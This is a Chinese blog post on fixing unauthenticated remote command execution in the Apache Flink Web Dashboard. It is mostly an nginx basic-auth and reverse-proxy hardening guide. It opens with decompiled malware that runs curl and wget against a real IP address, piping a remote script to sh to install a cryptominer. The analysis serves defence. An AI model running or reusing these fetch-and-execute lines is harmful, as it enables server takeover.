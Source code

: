 # 【漏洞修复】修复 Apache Flink Web Dashboard 未授权访问致远程命令执行漏洞

## 介绍

攻击者通过Flink Web Dashboard上传含有恶意代码的jar包进行攻击，中招会使服务器占满CPU沦为挖矿机，非常猖獗

通过反编译得到的恶意代码：

```
package com.example;

import java.io.IOException;

public class Main {
    public Main() {
    }

    public static void main(String[] var0) throws IOException {
        String var1 = "142.44.191.122/f.sh";
        String var2 = "curl " + var1 + "|sh";
        String[] var3 = new String[]{"/bin/bash", "-c", var2};
        Runtime.getRuntime().exec(var3);
        String var4 = "wget -q -O - " + var1 + "|sh";
        String[] var5 = new String[]{"/bin/bash", "-c", var4};
        Runtime.getRuntime().exec(var5);
    }
}
```





## 思路：Nignx使用HTTP基本身份验证限制访问



## 介绍

您可以通过实现用户名/密码身份验证来限制对网站或网站某些部分的访问。用户名和密码取自由密码文件创建工具创建并填充的文件，例如`apache2-utils`。

HTTP基本身份验证也可以与其他访问限制方法结合使用，例如通过[IP地址](https://docs.nginx.com/nginx/admin-guide/security-controls/blacklisting-ip-addresses/)或[地理位置](https://docs.nginx.com/nginx/admin-guide/security-controls/controlling-access-by-geoip/)限制访问。



## 先决条件

- NGINX
- 密码文件创建实用程序，例如`apache2-utils`（Debian，Ubuntu）或`httpd-tools`（RHEL / CentOS / Oracle Linux）。 htpasswd是Apache的Web服务器内置工具，用于创建和更新储存用户名、域和用户基本认证的密码文件 。

## 创建密码文件

要创建用户名-密码对，请使用密码文件创建实用程序，例如，`apache2-utils`或`httpd-tools`

1. 确认已安装`apache2-utils`（Debian，Ubuntu）或`httpd-tools`（RHEL / CentOS / Oracle Linux）。

2. 创建密码文件和第一个用户。运行`htpasswd`带有`-c`标志的实用程序（以创建一个新文件），文件路径名作为第一个参数，用户名作为第二个参数：

   ```
   [root@Young conf.d]# htpasswd -c /etc/nginx/conf.d/.htpasswd RobinWang
   New password: 
   Re-type new password: 
   Adding password for user RobinWang
   ```

   按Enter，然后在提示时键入**RobinWang**的密码。

3. 创建其他用户密码对。省略`-c`标志，因为文件已经存在：

   ```
   $ sudo htpasswd /etc/nginx/conf.d/.htpasswd user2
   ```

4. 您可以确认该文件包含成对的用户名和加密的密码：

   ```
   [root@Young conf.d]# cat /etc/nginx/conf.d/.htpasswd 
   RobinWang:********/********.********.********
   user2:********/********.********.********
   ```





## 配置NGINX和NGINX Plus以进行HTTP基本身份验证

1. 在要保护的位置内，指定[`auth_basic`](https://nginx.org/en/docs/http/ngx_http_auth_basic_module.html#auth_basic)指令并为密码保护的区域命名。询问凭据时，该区域的名称将显示在用户名/密码对话框窗口中：

   ```
   location  / api  { 
       auth_basic  “管理员 区域” ; 
       ＃... 
   }
   ```

2. [`auth_basic_user_file`](https://nginx.org/en/docs/http/ngx_http_auth_basic_module.html#auth_basic_user_file)使用包含用户/密码对的*.htpasswd*文件的路径指定指令：

   ```
   location  / api  { 
       auth_basic            “管理员 区域” ; 
       auth_basic_user_file  /etc/apache2/.htpasswd ;  
   }
   ```

另外，您可以使用基本身份验证来限制对整个网站的访问，但仍将某些网站区域设为公开。在这种情况下，请指定指令的`off`参数，该[`auth_basic`](https://nginx.org/en/docs/http/ngx_http_auth_basic_module.html#auth_basic)指令取消从较高配置级别的继承：

```
server {
    ...
    auth_basic           "Administrator’s Area";
    auth_basic_user_file conf/htpasswd;

    location /public/ {
        auth_basic off;
    }
}
```



## 将基本身份验证与IP地址的访问限制相结合

HTTP基本身份验证可以有效地结合IP地址的访问限制。您可以至少实现两种方案：

- 用户必须经过身份验证并具有有效的IP地址
- 用户必须经过身份验证或具有有效的IP地址

1. 使用[`allow`](https://nginx.org/en/docs/http/ngx_http_access_module.html#allow)和[`deny`](https://nginx.org/en/docs/http/ngx_http_access_module.html#deny)指令允许或拒绝来自特定IP地址的访问：

   ```
   location /api {
       #...
       deny  192.168.1.2;
       allow 192.168.1.1/24;
       allow 127.0.0.1;
       deny  all;
   }
   ```

   仅对`192.168.1.1/24`网络（`192.168.1.2`地址除外）授予访问权限。请注意，`allow`和`deny`指令将按其定义的顺序应用。

2. 将IP和HTTP身份验证的限制与[`satisfy`](https://nginx.org/en/docs/http/ngx_http_core_module.html#satisfy)指令结合使用。如果将指令设置为`all`，如果客户端同时满足两个条件，则将授予访问权限。如果将指令设置为`any`，如果客户端满足至少一个条件，则将授予访问权限：

这里我没有公网地址客户端就不用了

## Nginx反向代理

首先修改Flink的Web前端配置

```
rest.port: 8084

# The address to which the REST client will connect to
#
rest.address: 127.0.0.1

```

将Flink的Web前端设置为 **回送地址** 的端口

然后使用反向代理这个地址

```
			proxy_set_header Host $host;
    		proxy_set_header X-Real-IP $remote_addr;
    		proxy_pass http://127.0.0.1:8084;

```



## 完整的例子

该示例显示了如何通过简单身份验证以及IP地址访问限制来保护您的状态区域：

```
    server {
        listen 0.0.0.0:8081;
        #root   /usr/share/nginx/html;

        location / {
			proxy_set_header Host $host;
    		proxy_set_header X-Real-IP $remote_addr;
    		proxy_pass http://127.0.0.1:8084;
            auth_basic           "Apache Flink Dashboard :)";
            auth_basic_user_file /etc/nginx/conf.d/.htpasswd;
        }
    }


```

配置好了之后记得Reload一下

```
# nginx -s reload 

```



当您访问状态页面时，系统会提示您登录：

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200115165117157.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM1ODE1NTI3,size_16,color_FFFFFF,t_70)

如果提供的名称和密码与密码文件不匹配，则会出现错误。`401 (Authorization Required)`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200115165140764.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM1ODE1NTI3,size_16,color_FFFFFF,t_70)

